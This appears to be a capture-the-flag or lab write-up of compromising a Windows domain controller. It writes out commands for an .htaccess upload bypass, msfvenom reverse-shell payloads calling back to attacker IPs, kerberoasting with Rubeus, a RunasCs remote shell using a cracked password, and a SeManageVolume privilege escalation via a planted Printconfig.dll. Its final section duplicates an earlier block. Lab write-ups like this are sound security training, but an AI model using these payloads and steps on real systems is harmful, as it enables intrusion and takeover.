Seems to be a domain controller with the ports open


# 80

Website present

There is an upload on the website:
We also have an upload directory:


Now we can modify the `.htaccess`

To create new `.htaccess` file:
```bash 
echo "AddType application/x-httpd-php .evil" > .htaccess
```
Now uploading it.
We can access it at http://192.168.218.187/uploads/shell.evil:

Then generating a msfvenom payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=192.168.45.186 LPORT=4444 > reverse.exe
```

Now we can execute it after transfering to get a shell:




Might be possible but the process is most likely running as svc_apache.


Nope



Now using kerberoasting we got the hash:
```
.\Rubeus.exe kerberoast /nowrap /tgtdeleg
```


Now cracking it:


Now to get a shell as svc_mssql:
```
import-module .\Invoke-RunasCs.ps1
```
```
Invoke-RunasCs svc_mssql trustno1 cmd.exe -remote 192.168.45.167:1234
```
We have SeManageVolumePrivilege:


Now we can use an exploit:
https://github.com/CsEnox/SeManageVolumeExploit/releases
Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```

Then in powershell:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
Now should have got a shell


Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```